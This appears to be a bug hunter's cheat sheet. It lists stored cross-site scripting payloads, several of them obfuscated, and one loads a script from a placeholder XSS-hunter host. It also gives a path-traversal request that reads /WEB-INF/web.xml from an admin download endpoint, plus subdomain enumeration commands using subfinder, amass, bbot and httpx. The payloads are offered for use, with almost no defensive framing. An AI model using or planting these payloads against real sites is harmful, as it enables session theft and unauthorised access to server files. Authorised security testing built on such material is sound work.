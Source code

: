 # Payload Stored XSS
#### <img src=x onerror​=alert(origin)>
#### <img src="X" onerror​=top[8680439..toString(30)](1337)>
#### test“;”/></{dynamic tag}></script><script/SRC=//{xss hunter url} /  (stored xss)
#### <script<img>>alert(1);</script</img>>

# Payload LFI
Since we are working in a Java environment, I attempted to read /WEB-INF/web.xml because this file often contains a lot of useful information. By navigating to http://admin.target:8443/admin/download?fileName=/WEB-INF/web.xml, I was able to access some juicy information.! https://medium.com/@HX007/a-journey-of-limited-path-traversal-to-rce-with-40-000-bounty-fc63c89576ea


---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# subdomain finder

#### subfinder -d yourdomain_name -v  
      -d = particular one domain enumurate <br>
      -dl = Maltipull domain enumurate from a file <br>
      -o, -output string = file to write output to <br>
      -silent = show only subdomains name in output <br>
      -nW, -active = display active subdomains only <br>
      -oI, -ip = include IP address and domain name in output (-active only) <br>
      -max-time int = minutes to wait for enumeration results (default 10) <br>
      -ei, -exclude-ip = exclude IPs from the list of domains <br>


 go-to tools 
#Subfinder, 
#Amass, 
#Bbot 
to gather subdomains.
==================================================
 filtered the live ones with #httpx.

using the 
#"-sc — title" 
flags because they show the status code and page title, which helps me spot interesting subdomains faster. 
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

